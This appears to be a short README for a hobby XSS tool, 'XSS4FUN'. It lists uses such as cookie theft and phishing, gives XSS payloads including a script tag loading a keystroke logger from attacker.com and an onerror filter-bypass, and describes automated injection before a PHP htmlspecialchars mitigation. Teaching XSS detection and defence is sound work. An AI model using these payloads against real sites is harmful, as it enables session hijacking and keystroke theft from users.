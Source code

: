 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Applications:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
 
## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.

## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**
